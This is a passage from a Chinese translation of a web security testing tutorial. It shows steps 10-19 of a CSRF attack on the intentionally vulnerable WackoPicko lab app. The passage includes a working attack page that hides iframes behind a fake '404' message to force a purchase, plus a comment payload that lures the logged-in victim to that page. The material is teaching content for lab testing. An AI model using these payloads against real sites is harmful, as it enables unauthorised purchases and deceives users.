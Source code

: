 10.  之后，创建 HTML 文件，叫做`/var/www/html/wackopurchase.html`，带有如下内容：

    ```
    <html> 
    <head></head> 
    <body onLoad='window.location="http://192.168.56.102/ WackoPicko/cart/action.php?action=purchase";setTimeout("window. close;",1000)'> 
    <h1>Error 404: Not found</h1> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/action. php?action=add&picid=16"> 
    <iframe src="http://192.168.56.102/WackoPicko/cart/review.php" > 
    <iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"> 
    </iframe> 
    </iframe> 
    </iframe> 
    </body>
    ```

    这个代码会我们的商品的发送`add`、`review`和`confirm`请求给 WackoPicko ，之后展示 404 页面给用户，当它加载完成后，它会重定向到购买操作，之后在一秒后关闭窗口。

11.  现在以`v_user`登录，上传图片并登出。

12.  作为攻击者，我们需要确保用户访问我们的恶意站点，同时仍然保持登录 WackoPicko。以`attacker`登录之后，访问`Recent`并选择属于`v_user`的图片（刚刚上传的那个）。

13.  我们需要在图片上输入下列评论。

    ```
    This image looks a lot like <a href="http://192.168.56.1/ wackopurchase.html" target="_blank">this</a>
    ```

    > 译者注：这一步的前提是页面上存在 XSS，没有的话利用社会工程直接发送链接也是可行的。

14.  点击`Preview`之后`Create`。

    ![](../img/cb508b5f393ed7f01647ff419493441b.png)

    你可以看到，评论中允许HTML 代码，而且当`v_user`点击链接是，我们的恶意页面会在新窗口打开。

15.  登出并以`v_user`登录。

16.  访问`Home`并点击`Your Purchased Pics`，这里应该没有攻击者的图片。

17.  再次访问`Home`，之后访问`Your Uploaded Pics`。

18.  选项带有攻击者评论的图片。

19.  点击评论中的链接。

    ![](../img/a16a6b84431b883db903ab5cd7e02bc7.png)